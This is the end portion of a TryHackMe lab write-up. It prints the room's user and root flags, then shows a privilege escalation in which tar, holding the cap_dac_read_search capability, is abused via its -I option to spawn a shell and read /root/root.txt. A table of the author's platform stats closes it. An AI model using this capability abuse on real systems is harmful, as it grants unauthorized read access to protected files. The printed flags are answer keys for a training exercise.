 ```bash
hades@hell:~$ pwd
/home/hades
hades@hell:~$ ls
user.txt
hades@hell:~$ cat user.txt
thm{sh3ll_3c4p3_15_v3ry_1337}
```


<br>

<p>1.3. root.txt<br>
<code>thm{w0w_n1c3_3sc4l4t10n}</code></p>

```bash
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

<br>

<h3>GTFOBins</h3>

<p>https://gtfobins.github.io/gtfobins/tar/</p>

<img width="1321" height="158" alt="image" src="https://github.com/user-attachments/assets/5108b9ab-7671-4573-96de-92528efa0504" />

<img width="1289" height="232" alt="image" src="https://github.com/user-attachments/assets/ce6051b5-81fa-4a7f-91f7-dc7b98344534" />

<br>


```bash
hades@hell:~$ tar xf "/root/root.txt" -I '/bin/sh -c "cat 1>&2"'
thm{w0w_n1c3_3sc4l4t10n}
```


<br>
<br>

<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/44b5638e-7eca-472d-99c7-715ad67419ba"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/37a31f44-b55f-4985-82fc-dbd8138afd95"></p>


<br>

<h1 align="center">My TryHackMe Journey</h1>
<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| July 28, 2025     | 448      |     145ᵗʰ    |      5ᵗʰ     |     127ᵗʰ   |     7ᵗʰ    | 117,756  |    880    |    72     |
